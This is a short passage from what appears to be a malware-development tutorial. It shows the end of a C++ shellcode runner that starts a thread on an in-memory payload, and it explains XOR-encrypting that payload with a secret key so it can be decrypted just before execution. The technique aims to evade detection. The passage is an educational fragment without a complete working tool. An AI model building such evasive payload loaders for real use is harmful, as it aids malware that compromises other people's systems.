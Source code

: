 ```cpp
    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

The main difference with our first simple implementation is - we add XOR decrypt function and our secret key `my_secret_key` for decryption:
![dexor function and key](/assets/images/2/2021-09-04_13-47.png){:class="img-responsive"}

It's actually simple function, it's a symmetric encryption, we can use it for encryption and decryption with the same key.

and we deXOR our payload before copy to buffer:
![dexor our payload](/assets/images/2/2021-09-04_13-50.png){:class="img-responsive"}
